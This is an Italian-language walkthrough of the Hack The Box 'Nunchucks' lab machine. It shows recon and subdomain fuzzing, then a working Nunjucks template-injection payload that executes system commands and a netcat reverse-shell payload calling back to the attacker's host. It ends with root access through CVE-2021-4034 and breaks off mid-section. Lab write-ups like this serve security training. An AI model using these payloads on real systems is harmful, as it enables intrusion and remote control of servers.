

# Nunchucks
* **POINTS**: 0
* **USER RATING**: Easy
* **OPERATING SYSTEM**: Linux
* **RATING**: 4.8

## 1. Recon
```shell
└─$ nmap -sC -sV -oA nmap/initial 10.10.11.122
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-14 08:58 EDT
Nmap scan report for 10.10.11.122
Host is up (0.13s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-title: Nunchucks - Landing Page
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.16 seconds
```

### 1.1 TCP 80 
#
Ci redirige verso il subdomain `nunchucks.htb` che aggiungiamo in */etc/hosts* ma non funziona sul tale porta

### 1.2 TCP 443
#


```shell
└─$ wfuzz --hw 2271 -H "Host: FUZZ.nunchucks.htb" -w ~/Scaricati/SecLists/Discovery/DNS/subdomains-top1million-5000.txt https://nunchucks.htb
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://nunchucks.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                           
=====================================================================

000000081:   200        101 L    259 W      4028 Ch     "store"                                           

Total time: 79.27308
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 62.93434
```

### 1.3 store.nunchucks.htb
#
<p align="center">
  
</p>

Proviamo a inviare una email e notiamo che ciò che mettiamo viene riportato a video

<p align="center">
  
</p>

## 2. SSTI
Il fatto che vediamo a video ciò che passiamo, fa pensare alla possibilità di avere *SSTI*.

### 2.1 PoC
#
<p align="center">
  
</p>

Ok, ci siamo... vediamo quale *engine* c'è dietro. Sul sito di [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) un particolare *engine* attira la mia attenzione "*NUNJUCKS (NodeJS)*"

Costruiamo la richiesta di POST su burp (ci da info su come costruirla */assets/js/main.js*) ed inviamo il seguente payload trovato su questo [articolo](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine):

`{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}`

<p align="center">
  
</p>

Lanciando il comando `id` scopriamo che siamo l'utente *david*, quindi in */home/david* abbiamo la user flag: `880da626fdd64dfeb38502a95a2a6912`

Ci apriamo una shell:

`{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.16 9001 >/tmp/f')\")()}}`

Facciamo una shell "bella"

```shell
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
david@nunchucks:/var/www/store.nunchucks$ ^Z
[1]+  Fermato                 nc -lvnp 9001
┌──(asd㉿asd)-[~/Scrivania/Nunchucks]
└─$ stty raw -echo; fg
nc -lvnp 9001

david@nunchucks:/var/www/store.nunchucks$
```

## 3. Privilege Escalation
Carico *linpeas* sulla macchina e mi da una informazione molto interessante:

```shell
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version                                                                                                       
Sudo version 1.8.31                                                                                                

Vulnerable to CVE-2021-4034
```

Quindi mi scarico la [CVE](https://github.com/berdav/CVE-2021-4034), faccio *make*, mi creo uno zip e lo passo sulla macchina.

Estraggo i file ed eseguendo *cve-2021-4034.sh* divento root

```shell
david@nunchucks:/tmp/CVE-2021-4034$ ./cve-2021-4034
# whoami
root
```

In */root* ho la root flag: `26cddc363c5ee4b980df0e4338970688` 


## 4. Modo alternativo per fare priv
Sempre in *linpeas* si vede che perl ha come capabilities `cap_setuid+ep`

Cercando su Google